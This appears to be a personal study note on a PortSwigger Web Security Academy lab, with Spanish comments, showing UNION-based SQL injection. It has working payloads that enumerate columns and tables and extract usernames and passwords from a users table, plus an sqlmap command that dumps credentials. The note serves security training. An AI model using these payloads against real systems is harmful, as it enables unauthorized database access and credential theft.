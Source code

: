 > **EXTRA:** If you only have one column to extract text data, then concatenate multiple values in a single reflected output field using SQL syntax `||` characters from the database.

```js
//LO ESENCIAL ES PRIMERO DEFINIR LOS NULL's y saber en que posicion podemos insertar nuestra columna, ¿el primer null, el segundo null? eso toca probarlo. 
//en este caso en el segundo NULL, y además probando se llego que solo acepta 2 NULL
'+UNION+SELECT+NULL,NULL,NULL-- //tira error 500
'+UNION+SELECT+NULL,NULL-- //no tira error -> sabemos que son 2 NULL
'+UNION+SELECT+NULL,'a'--
//y asi nos retorna las tablas que existen. 
'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
'+UNION+SELECT+NULL,NULL+FROM+users--

'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

//PAYLOAD FINAL ->
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

//CON SQLMAP TAMBIEN SALE: 
sqlmap -u "https://ID-LAB.web-security-academy.net/filter?category=Gifts" -p category --level 5 --risk 3 --batch --dbms=PostgreSQL --dbs -T 'users' --columns --sql-query="SELECT username,password FROM users" --random-agent --threads 10
```

![](Pasted%20image%2020250222220929.png)
